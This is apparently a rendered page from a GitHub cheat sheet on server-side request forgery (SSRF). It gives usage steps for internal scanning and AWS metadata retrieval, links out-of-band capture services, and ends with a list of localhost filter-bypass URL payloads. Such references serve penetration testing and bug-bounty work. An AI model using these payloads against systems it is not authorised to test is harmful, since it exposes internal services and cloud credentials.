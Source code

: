 
### **How to Use This Information**
1. **Payload Testing**:
   - Use the provided payloads to test for SSRF vulnerabilities.
2. **Internal Network Scanning**:
   - Scan internal networks and services using SSRF.
3. **AWS Metadata Retrieval**:
   - Exploit SSRF to retrieve AWS metadata.
4. **URL Manipulation**:
   - Manipulate URLs to bypass filters and access restricted resources.
5. **Automation**:
   - Use tools like Findomain and Gau to automate SSRF discovery.

---

### **To fuzz for inoternal Ports**
- https://github.com/a7madn1/Fuzzing

---

# SSRF (Server Side Request Forgery)
Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.


# Capture SSRF
* Burpcollab
* http://pingb.in
* https://canarytokens.org/generate
* https://github.com/projectdiscovery/interactsh
* https://github.com/teknogeek/ssrf-sheriff
* https://webhook.site/#!/f97e9831-53bd-45c5-8d05-232dd08b9ed6
* http://requestrepo.com
* https://app.interactsh.com
* https://github.com/stolenusername/cowitness

# Bypass SSRF Protection

* **Encode-IP**
  
    The Burp extension Burp-Encode-IP implements IP formatting bypasses


* **Localhost**
```html
# Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪
https://1:@my.site:\@@@@w.youtube.com/@https://www.youtube.com/
```